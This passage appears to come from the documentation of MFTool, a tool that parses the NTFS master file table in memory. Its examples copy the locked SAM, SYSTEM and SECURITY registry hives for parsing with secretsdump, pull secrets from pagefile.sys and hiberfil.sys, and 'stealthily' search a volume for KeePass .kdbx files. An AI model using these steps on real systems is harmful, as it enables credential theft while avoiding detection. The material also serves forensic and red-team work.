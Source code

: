 ## Accessing deleted and locked files

	> read_file c:\windows\system32\config SAM c:\temp\SAM
	[+] Process completed. Output written to 'c:\temp\SAM'.


As described earlier, this command dynamically retrieves the clusters that hold the file's content and assembles them into the specified destination file.

For example, repeating the process with the `SYSTEM` and `SECURITY` files allows dumping the registry hives without making any use of the corresponding registry API functions. The resulting files can then be parsed directly with tools like `secretsdump`.

In the same way, MFTool can access other locked files, such as `pagefile.sys` or `hiberfil.sys`, [extracting sensitive information](https://diverto.github.io/2019/11/05/Extracting-Passwords-from-hiberfil-and-memdumps) they often contain.

This command can also be used to recover deleted files, provided their content has not yet been overwritten on disk.

## Directory listing and regex-based search

	> ls C:\windows
	- AppReadiness (Directory)
	- BitLockerDiscoveryVolumeContents / BITLOC~1 (Directory)
	- Boot (Directory)
	- Branding (Directory)
	- CSC (Directory)
	- CbsTemp (Directory)
	- Containers (Directory)
	- DCEBoot64.exe / DCEBOO~1.EXE (File)
	- DiagTrack (Directory)
	- DigitalLocker / DIGITA~1 (Directory)
	...

The `ls` command enumerates directory contents by parsing the `$I30` attributes directly from memory, with logarithmic complexity.

Also, the `show_by_regex` command can be used to scan the entire volume from memory, locating all files whose names match a given regular expression (for example, finding all `.kdbx` files). While this operation is linear in complexity, it is significantly faster than using the Windows API and much stealthier, since almost all processing happens against the in-memory MFT copy:

	> show_by_regex /\.kdbx$/
	[+] Entry .\Users\Superadmin\Secrets.kdbx matched. Record index: 15142
	[-] Filenames:
	        - \Users\Superadmin\SECRET~1.KDB
	        - \Users\Superadmin\Secrets.kdbx
	-----------------------------------------------
	[+] Entry .\Users\Superadmin\EvenMoreSecrets.kdbx matched. Record index: 16781
	[-] Filenames:
	        - \Users\Superadmin\EVENMO~1.KDB
	        - \Users\Superadmin\EvenMoreSecrets.kdbx
	-----------------------------------------------
	...

